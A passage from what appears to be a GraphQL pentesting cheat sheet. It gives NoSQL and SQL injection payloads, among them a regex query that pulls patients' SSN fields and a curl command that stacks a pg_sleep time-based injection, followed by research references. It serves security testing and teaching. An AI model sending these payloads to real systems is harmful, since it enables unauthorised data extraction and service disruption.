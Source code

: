 
## Injections

> SQL and NoSQL Injections are still possible since GraphQL is just a layer between the client and the database.


### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```


## References

* [Introduction to GraphQL](https://graphql.org/learn/)
* [GraphQL Introspection](https://graphql.org/learn/introspection/)
* [API Hacking GraphQL - @ghostlulz - jun 8, 2019](https://medium.com/@ghostlulzhacks/api-hacking-graphql-7b2866ba1cf2)
* [GraphQL abuse: Bypass account level permissions through parameter smuggling - March 14, 2018 - @Detectify](https://labs.detectify.com/2018/03/14/graphql-abuse/)
* [Discovering GraphQL endpoints and SQLi vulnerabilities - Sep 23, 2018 - Matías Choren](https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e)
* [Securing Your GraphQL API from Malicious Queries - Feb 21, 2018 - Max Stoiber](https://blog.apollographql.com/securing-your-graphql-api-from-malicious-queries-16130a324a6b)
* [GraphQL NoSQL Injection Through JSON Types - June 12, 2017 - Pete Corey](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/)
* [SQL injection in GraphQL endpoint through embedded_submission_form_uuid parameter - Nov 6th 2018 - @jobert](https://hackerone.com/reports/435066)
* [Looting GraphQL Endpoints for Fun and Profit - @theRaz0r](https://raz0r.name/articles/looting-graphql-endpoints-for-fun-and-profit/)
* [How to set up a GraphQL Server using Node.js, Express & MongoDB - 5 NOVEMBER 2018 - Leonardo Maldonado](https://www.freecodecamp.org/news/how-to-set-up-a-graphql-server-using-node-js-express-mongodb-52421b73f474/)
* [GraphQL cheatsheet - DEVHINTS.IO](https://devhints.io/graphql)